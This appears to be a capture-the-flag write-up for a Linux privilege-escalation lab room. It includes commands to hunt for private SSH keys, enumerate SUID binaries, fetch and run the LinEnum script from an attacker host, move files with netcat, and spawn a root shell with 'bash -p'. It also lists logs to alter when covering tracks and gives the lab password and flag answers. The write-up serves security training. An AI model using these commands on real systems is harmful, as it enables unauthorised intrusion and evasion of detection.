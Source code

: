 ```yaml
---
description: Networking - Priv Esc
---
```


# The Rogue Gnome

## Video

{% embed url="https://www.youtube.com/watch?v=_SMxZPne5QU" %}

## Resources

[DVWA (Damn Vulnerable Web App)](http://www.dvwa.co.uk)

`whoami` name of the account

`echo $0`  our shell

`python -c 'import pty; pty.spawn("/bin/bash")' ` spawn another shell and make it interactive

We're using `find` to search the volume, by specifying the root (`/`) to search for files named "id\_rsa" which is the name for _private_ SSH keys, and then using `2> /dev/null` to only show matches to us.

`find / -name id_rsa 2> /dev/null`

### The "Priv Esc Checklist"

1. Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
2. Locating other services running or applications installed that may be abusable (SUID & out of date software)
3. Looking for automated scripts like backup scripts (exploiting crontabs)
4. Credentials (user accounts, application config files..)
5. Mis-configured file and directory permissions

### Cheatsheets

* [g0tmi1k](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)
* [payatu](https://payatu.com/guide-linux-privilege-escalation)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation)

### SUID 101

&#x20;[GTFOBins](https://gtfobins.github.io)

`find / -perm -u=s -type f 2>/dev/null`

### Enumeration Scripts

[LinEnum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

### Transfer Scripts

`python3 -m http.server 8080`

`nc -l -p 1337 > LinEnum.sh `   `nc -w -3 10.10.6.64 1337 < LinEnum.sh`

### Covering our Tracks

* "/var/log/auth.log" (Attempted logins for SSH, changes too or logging in as system users:)
* "/var/log/syslog" (System events such as firewall alerts:)
* "/var/log/\<service/" -- /var/log/apache2/access.log"

## Challenge

### What type of privilege escalation involves using a user account to execute commands as an administrator?

{% hint style="success" %}
vertical
{% endhint %}

### What is the name of the file that contains a list of users who are a part of the `sudo` group?

{% hint style="success" %}
sudoers
{% endhint %}

### Use SSH to log in to the vulnerable machine like so: `ssh cmnatic@10.10.6.64`

&#x20;Input the following password when prompted: **aoc2020**

![](<../.gitbook/assets/image (72).png>)

{% hint style="success" %}
No answer needed
{% endhint %}

### Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of [GTFObins](https://gtfobins.github.io) and your researching skills to learn how to exploit this binary.

You may find uploading some of the enumeration scripts that were used during today's task to be useful.

```
wget 10.14.4.204:8080/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

![](<../.gitbook/assets/image (73).png>)

![](<../.gitbook/assets/image (74).png>)

> https://gtfobins.github.io/gtfobins/bash/

```
bash -p
```

![](<../.gitbook/assets/image (75).png>)

{% hint style="success" %}
No answer needed
{% endhint %}

Use this executable to launch a system shell as root.

### What are the contents of the file located at **/root/flag.txt**?

```
cat /root/flag.txt
```

![](<../.gitbook/assets/image (76).png>)

{% hint style="success" %}
thm{2fb10afe933296592}
{% endhint %}
